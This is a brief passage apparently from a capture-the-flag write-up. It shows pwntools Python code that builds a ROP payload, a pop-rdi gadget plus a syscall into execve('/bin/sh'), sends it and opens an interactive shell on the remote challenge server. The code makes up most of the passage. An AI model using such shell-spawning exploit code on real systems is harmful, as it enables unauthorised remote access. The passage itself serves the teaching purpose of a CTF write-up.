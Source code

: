 After we had that, calling *execve* was easy:

```python
...
pop_rdi = p64(0x00401bc0)
syscall = p64(elf.plt["syscall"])

payload = pop_rdi + p64(0x3b) + syscall + b"\0" * 102 * 8 +  b"/bin/sh\0"

store(994, b"\0"*72 + payload)

p.ru(b"Sent!")
p.interactive()
```

We immediately tried it on remote and it worked first try 🙂